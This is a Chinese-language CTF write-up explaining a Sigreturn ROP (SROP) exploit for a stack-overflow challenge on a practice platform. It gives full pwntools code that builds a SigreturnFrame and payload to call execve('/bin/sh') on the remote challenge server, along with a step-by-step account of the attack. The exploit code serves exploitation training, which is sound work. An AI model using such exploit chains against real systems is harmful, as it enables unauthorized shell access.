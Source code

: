 ### Sigreturn ROP

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68177a5958cb8da5c8dc5fd2.png)

反编译代码

![](https://pic1.imgdb.cn/item/68177a7158cb8da5c8dc5fd9.png)

第二段代码存在栈溢出

![](https://pic1.imgdb.cn/item/68177b7258cb8da5c8dc605d.png)

给了字符串

![](https://pic1.imgdb.cn/item/68177d8558cb8da5c8dc611e.png)

查找 `pop rdi` 没有找到

![](https://pic1.imgdb.cn/item/68177d4958cb8da5c8dc60fd.png)

基础配置

```python
from pwn import *
 
context(os='linux', arch='amd64', log_level='debug')
p = remote("challenge.qsnctf.com", 31213)
binsh = 0x40203A
rsi_rax_ret = 0x401049
syscall_ret = 0x401045
```

构造 SROP Frame

```python
frame = SigreturnFrame()
frame.rax = constants.SYS_execve	# execve的系统调用号（59）
frame.rdi = binsh				   # "/bin/sh" 地址
frame.rsi = 0					   # argv参数（NULL）
frame.rdx = 0					   # envp参数（NULL）
frame.rip = syscall_ret				# 系统调用后跳转到 syscall; ret
```

构造 payload

```python
payload = b'a' * 8 + p64(rsi_rax_ret) + p64(0) + p64(0xf) + p64(syscall_ret) + bytes(frame)
```

**攻击流程：**

1. 栈溢出：覆盖返回地址，跳转到 `rsi_rax_ret`
2. 设置 `rsi=0` 和 `rax=0xf`：
   - `pop rsi` → `rsi = 0`（`execve` 的第二个参数 `argv`（参数数组）设为 `NULL`（即 `0`），表示无额外参数）
   - `pop rax` → `rax = 0xf` （`0xf` 是 `sigreturn` 的系统调用号（`__NR_rt_sigreturn`），当 `syscall` 执行时，`rax` 决定调用哪个系统调用，这里触发 `sigreturn`）
3. 执行 `syscall`：
   - `syscall` 触发 `sigreturn`
   - `sigreturn` 从栈上读取 `frame`，恢复所有寄存器：
     - `rax = 59`（`execve`）
     - `rdi = binsh`（`"/bin/sh"`）
     - `rsi = 0`, `rdx = 0`（无参数）
     - `rip = syscall_ret`（再次执行 `syscall`）
4. 第二次 `syscall`：
   - 由于 `rax=59`，触发 `execve("/bin/sh", NULL, NULL)`，获得 shell

```python
from pwn import *
 
context(os='linux', arch='amd64', log_level='debug')
p = remote("challenge.qsnctf.com", 31213)
binsh = 0x40203A
rsi_rax_ret = 0x401049
syscall_ret = 0x401045
 
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = binsh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret
 
payload = b'a' * 8 + p64(rsi_rax_ret) + p64(0) + p64(0xf) + p64(syscall_ret) + bytes(frame)

p.sendafter("now seems extraordinary.\n", payload)
p.interactive()
```

